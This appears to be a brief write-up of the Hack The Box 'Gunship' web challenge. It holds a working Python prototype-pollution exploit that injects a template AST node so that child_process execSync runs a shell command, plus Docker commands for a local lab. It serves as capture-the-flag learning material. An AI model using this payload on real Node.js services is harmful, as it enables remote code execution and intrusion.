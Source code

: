 ref:- 
https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution
https://portswigger.net/web-security/prototype-pollution
https://app.hackthebox.com/challenges/Gunship



```python
import requests
TARGET_URL = 'http://94.237.63.83:39617'
# TARGET_URL = 'http://127.0.0.1:1337'
newJSON={
"artist.name":"Gingell",
"__proto__.block": {
"type": "Text",
"line": "process.mainModule.require('child_process').execSync(`ls > /app/static/out`)"
}}
oldjson={
"artist.name":"Gingell",
"__proto__.type": "Program",
"__proto__.body": [{
"type": "MustacheStatement",
"path": 0,
"params": [{
"type": "NumberLiteral",
"value": "process.mainModule.require('child_process').execSync(`ls > /app/static/out`)"
}],
"loc": {
"start": 0,
"end": 0
}
}]
}
# make pollution
r = requests.post(TARGET_URL+'/api/submit', json = newJSON)
print(r.status_code)
print(r.text)
print(requests.get(TARGET_URL+'/static/out').text)
```

![[protoPopulationOutput.png]]


#### with docker
download docker file from htb

###### build
```bash
sudo docker build -t web_gunship .
```

###### run it
```bash
sudo docker run -p 1337:1337 web_gunship
```

If you want to get shell to that docker

```bash
sudo docker ps
```


```
CONTAINER ID   IMAGE     COMMAND                  CREATED         STATUS         PORTS                                       NAMES
e8a996d1906d   gunship   "/entrypoint.sh /usr…"   7 minutes ago   Up 7 minutes   0.0.0.0:1337->1337/tcp, :::1337->1337/tcp   awesome_payne
```

```bash
sudo docker exec -it e8a996d1906d sh
```